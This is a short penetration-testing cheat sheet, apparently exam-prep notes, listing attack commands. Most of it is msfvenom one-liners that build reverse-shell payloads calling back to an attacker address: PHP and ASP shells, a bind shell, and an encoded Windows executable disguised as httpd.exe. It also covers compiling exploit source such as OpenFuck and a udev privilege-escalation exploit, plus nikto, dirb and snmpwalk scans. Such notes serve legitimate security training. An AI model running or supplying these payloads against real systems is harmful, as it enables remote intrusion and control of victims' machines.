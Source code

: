 Enumerate some SMTP OID

```text
snmpwalk -c <COMMUNITY_STRING> <version> <HOST> <OID>
```

### msfvenom

PHP reverse shell

```text
msfvenom -p php/reverse_php LHOST=10.11.0.49 LPORT=443 -f raw > shell.php
```

Windows bind port \(No firewall enabled\)

```text
msfvenom -p windows/shell_bind_tcp R LPORT=4446 -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d"
```

Microsoft ASP .net reverse shell

```text
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.49 LPORT=4445 -f asp > shell.asp
```

Create windows executable

```text
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.49 LPORT=8080 -f exe -e x86/shikata_ga_nai -i 9 -o httpd.exe
```

### GCC / compilation

Regular compilation

```text
gcc -o OpenFuck 47080.c -lcrypto
```

Cross compile x86 in x86\_64 host

```text
gcc -Wall -o <out_file> <exploit.c> -m32 -march=i686 -Wl,--hash-style=both
gcc -m32 -Wl,--hash-style=both -o udev udev.c
```

### Nikto

Analise web with default settings

```text
nikto -host http://10.11.1.10
```

### dirb

Scan web service directories and files

```text
dirb http://192.168.1.10
```
